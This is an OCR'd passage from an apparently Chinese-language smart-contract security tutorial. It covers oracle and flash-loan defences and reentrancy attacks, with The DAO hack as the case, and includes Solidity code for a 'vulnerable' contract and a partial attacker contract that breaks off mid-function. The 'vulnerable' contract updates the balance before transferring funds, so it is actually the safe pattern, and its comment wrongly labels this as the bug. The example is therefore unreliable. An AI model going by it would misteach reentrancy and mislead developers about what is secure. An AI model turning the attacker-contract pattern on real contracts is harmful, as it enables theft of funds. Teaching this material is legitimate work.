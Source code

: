防禦措施
1. **價格預言機保護**：使用多個去中心化的預言機，如 Chainlink，減少單點故障的風險。    
2. **增加抵押要求**：提高閃電貸的抵押品要求，減少無抵押借款的風險。    
3. **滑點和交易限制**：在去中心化交易所（DEX）上設置最大交易量或滑點限制，減少市場操控的空間。

## 重入攻擊
當一個外部合約在執行過程中調用原本正在執行的合約，進而引發重複調用的情況。這種攻擊會導致合約的狀態不一致，並且可以反覆地進行未經授權的資金轉移，從而造成資金的損失。
在智能合約中，當合約進行對外部地址的轉帳時，外部合約可能會在接收資金後再回調到原合約，並且在合約狀態尚未更新的情況下反覆執行某些操作。這就為攻擊者提供了利用合約漏洞的機會。

* 案例 The DAO Attack
	* 攻擊者利用 DAO 合約中的一個漏洞，在合約執行資金轉移時，利用重入攻擊使合約的狀態未及時更新，重複進行資金提取。這一攻擊事件成為了區塊鏈歷史上最著名的漏洞之一，最終促使以太坊社區進行了硬分叉，恢復了部分損失。
	* 攻擊步驟
		* 攻擊者將自己的合約與 DAO 合約互動，並進行初步的資金提取。   
		- 攻擊者在接收到資金後，將控制權回調至 DAO 合約中，再次觸發提取操作。
		- 在 DAO 合約的狀態未更新時，攻擊者反覆進行資金提取，最終竊取大量資金。
漏洞合約(DAO合約)
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.6;

contract VulnerableContract {
    mapping(address => uint256) public balances;

    // 用於存款的函數
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // 用於提取資金的函數
    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount, "Insufficient balance");

        // 在轉帳前更新狀態的問題
        balances[msg.sender] -= amount;
        
        // 執行轉帳
        msg.sender.transfer(amount);
    }
}

```
攻擊者合約
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.6;

interface IVulnerableContract {
    function withdraw(uint256 amount) external;
}

contract Attacker {
    IVulnerableContract public vulnerableContract;
    address public owner;

    // 設置受害合約地址
    constructor(address _vulnerableContract) public {
        vulnerableContract = IVulnerableContract(_vulnerableContract);
        owner = msg.sender;
    }

    // 攻擊者發起攻擊
    function attack() public payable {
        require(msg.sender == owner, "Only the owner can attack");
```